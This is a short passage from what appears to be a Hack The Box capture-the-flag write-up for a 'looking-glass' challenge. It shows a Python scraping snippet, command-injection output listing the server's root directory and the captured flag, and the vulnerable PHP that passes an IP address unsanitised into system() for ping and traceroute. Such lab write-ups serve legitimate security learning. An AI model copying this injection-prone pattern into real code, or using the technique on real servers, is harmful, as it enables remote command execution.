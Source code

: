 ```python

soup = BeautifulSoup(resp.text, 'html.parser')
print("[+] lester: got textarea output: " +soup.textarea.text)
```

Result:

```txt
round-trip min/avg/max/stddev = 0.033/0.038/0.046/0.000 ms
www
bin
boot
dev
entrypoint.sh
etc
flag_vWY4h
home
lib
<snip>
www
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
juancho💀hackbox:looking-glass$ 
```

Got the flag.

Vulnerable PHP code at `/www/index.php`:

```php
<?php
function getUserIp()
{
    return $_SERVER['REMOTE_ADDR'];
}

function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}

?>

<!DOCTYPE html>
<html>
...
</html>
```
